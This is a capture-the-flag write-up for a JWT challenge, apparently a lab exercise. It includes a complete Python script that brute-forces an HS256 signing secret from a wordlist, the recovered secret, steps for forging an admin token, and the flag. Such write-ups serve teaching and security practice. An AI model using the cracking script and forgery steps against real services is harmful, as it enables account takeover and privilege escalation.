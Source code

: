 # JWT Bruteforce Challenge Write-up

## Challenge Overview

![](<img/0.png>)

This challenge provided a Postman collection JSON file. When imported into Postman, it contained 3 endpoints:
- `/register`
- `/login` 
- `/me`

## Initial Analysis

### Step 1: Account Registration and Login

![](<img/1.png>)
![](<img/2.png>)

The first step was to register an account using the `/register` endpoint, then login via the `/login` endpoint to obtain a token.

### Step 2: JWT Token Analysis

![](<img/3.png>)

The token appeared to be a JWT token, so I used jwt.io to debug it. The decoded payload contained:
- `id`
- `username` 
- `iat` (issued at)
- `exp` (expiration)

## Exploitation Strategy

Based on the challenge description mentioning "there will be a surprise in the admin account," the solution approach was to:
1. Change the `username` field value to `'admin'`
2. Access the `/me` endpoint

However, the JWT secret used was unknown, requiring a bruteforce attack to discover it.

## JWT Secret Bruteforce

### Bruteforce Script

```python
import jwt
import sys
from tqdm import tqdm

def load_wordlist(path):
    with open(path, 'r', encoding='latin-1') as f:
        return [line.strip() for line in f.readlines()]

def jwt_bruteforce(token, wordlist_path, algorithm='HS256'):
    wordlist = load_wordlist(wordlist_path)
    header = jwt.get_unverified_header(token)
    print(f"[i] JWT Algorithm: {header.get('alg', algorithm)}")
    print(f"[i] Total passwords to try: {len(wordlist)}")

    for secret in tqdm(wordlist, desc="Bruteforcing"):
        try:
            payload = jwt.decode(token, secret, algorithms=[algorithm])
            print("\n[+] Secret key found:", secret)
            print("[+] Decoded payload:", payload)
            return secret
        except jwt.InvalidSignatureError:
            continue
        except jwt.DecodeError:
            continue
        except Exception as e:
            print("\n[!] Unexpected error:", e)
            break

    print("\n[-] Secret key not found.")
    return None

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <jwt_token> <path_to_wordlist.txt>")
        sys.exit(1)

    jwt_token = sys.argv[1]
    wordlist_path = sys.argv[2]
    jwt_bruteforce(jwt_token, wordlist_path)
```

### Bruteforce Results

![](<img/4.png>)

Using the rockyou.txt wordlist, the script successfully discovered the JWT secret: **`mr.pakar`**

## Token Forgery and Flag Retrieval

### Step 1: Create New Token

![](<img/5.png>)

After finding the secret, I created a new JWT token with the `username` field changed to `'admin'`.

### Step 2: Access Admin Endpoint

![](<img/6.png>)

I accessed the `/me` endpoint using the forged token by replacing the `Authorization` field in the HTTP request header.

## Flag

```
HiB25{7eeeb84504738c837fa48e84f96557a8}
```

## Summary

This challenge demonstrated:
1. **JWT Analysis** - Understanding JWT structure and payload contents
2. **Bruteforce Techniques** - Using wordlists to crack weak JWT secrets
3. **Token Forgery** - Creating valid JWTs with modified claims
4. **Privilege Escalation** - Accessing admin functionality through token manipulation

The vulnerability stemmed from using a weak, dictionary-based secret (`mr.pakar`) for JWT signing, making it susceptible to bruteforce attacks.